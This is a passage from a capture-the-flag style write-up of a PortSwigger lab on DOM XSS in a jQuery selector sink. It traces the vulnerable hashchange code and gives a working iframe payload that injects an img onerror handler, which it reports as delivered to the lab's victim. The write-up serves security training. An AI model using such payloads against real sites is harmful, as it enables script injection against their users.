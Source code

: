 ![Screenshot from 2023-09-17 08-03-14](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/4bfb9938-ae04-409d-94fa-0136b3bcf67f)
Let's search about **section** `blog-list`

![Screenshot from 2023-09-17 08-04-44](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c34bda76-896a-4a96-9b12-313b79cdb0cd)
This section contains the `h2` that's use it to scrolling to it![Screenshot from 2023-09-17 08-05-17](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/53fe2d75-191e-4e15-b325-2a0f00c9d53d)

Then Let's copy this line from jQuery code

![Screenshot from 2023-09-17 08-03-54](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/17644b5b-291f-4640-9b1d-55585ff7ab9e)

And write any `h2` value from section and add this line in url 

```js
#h2_value
    // exmaple
#Finding Inspirati
```

And after this paste the line that we copied it in console with some functions

```js
$('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')').get(0).innerHTML
```

![Screenshot from 2023-09-17 08-06-43](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/379de0e5-04b9-44c6-b88d-b441fed2078a)
We get the hashed value that we written it in url

then let's cteate our payload with this info

```html
<iframe src="https://web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>';">
```

Test it

![Screenshot from 2023-09-17 08-11-38](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/5bcf6f0f-da2b-4de5-869c-d9452f9ecc3c)

Worked

![Screenshot from 2023-09-17 08-18-12](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa46ce9b-9109-42ee-bfa1-5c90054357c2)
Send it to victim

![Screenshot from 2023-09-17 08-19-33](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/86eb46e2-6048-4af7-8ac8-e8ad389412ce)
Lab solved

![Screenshot from 2023-09-17 08-20-37](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/0321fa41-9ead-4902-901c-e108b6c216f1)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/DOM_XSS_in_jQuery_selector_sink_using_a_hashchange_event.py)

### DOM XSS in AngularJS
